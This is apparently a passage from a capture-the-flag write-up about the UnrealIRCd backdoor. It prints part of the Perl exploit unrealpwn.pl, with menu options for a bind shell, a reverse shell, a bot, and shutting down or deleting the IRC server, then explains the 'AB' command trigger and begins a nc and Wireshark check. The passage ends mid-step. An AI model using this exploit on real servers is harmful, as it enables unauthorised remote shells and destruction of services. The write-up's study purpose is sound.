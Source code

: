 ```perl
if ($host eq "") { usage(); }
if ($port eq "") { usage(); }
if ($type eq "") { usage(); }

sub usage {
  printf "\nUsage :\n";
  printf "perl unrealpwn.pl <host> <port> <type>\n\n";
  printf "Command list :\n";
  printf "[1] - Perl Bindshell\n";
  printf "[2] - Perl Reverse Shell\n";
  printf "[3] - Perl Bot\n";
  printf "-----------------------------\n";
  printf "[4] - shutdown ircserver\n";
  printf "[5] - delete ircserver\n";
  exit(1);
}

sub unreal_trojan {
  my $ircserv = $host;
  my $ircport = $port;
  my $sockd = IO::Socket::INET->new (PeerAddr => $ircserv, PeerPort => $ircport, Proto => "tcp") || die "Failed to connect to $ircserv on $ircport ...\n\n";
  print "[+] Payload sent ...\n";
  if ($type eq "1") {
    print $sockd "$payload1";
  } elsif ($type eq "2") {
    print $sockd "$payload2";
  } elsif ($type eq "3") {
    print $sockd "$payload3";
  } elsif ($type eq "4") {
    print $sockd "$payload4";
  } elsif ($type eq "5") {
    print $sockd "$payload5";
  } else {
    printf "\nInvalid Option ...\n\n";
    usage();
  }
  close($sockd);
  exit(1);
}

unreal_trojan();
# EOF
```

From what I can see it connect to the box and then send **AB** and after it the command that we wants to run. We can confirm that like this:

1. Open Wireshark and make it start capturing

2. Now connect to the Box using **nc** and make it ping to your ip address:
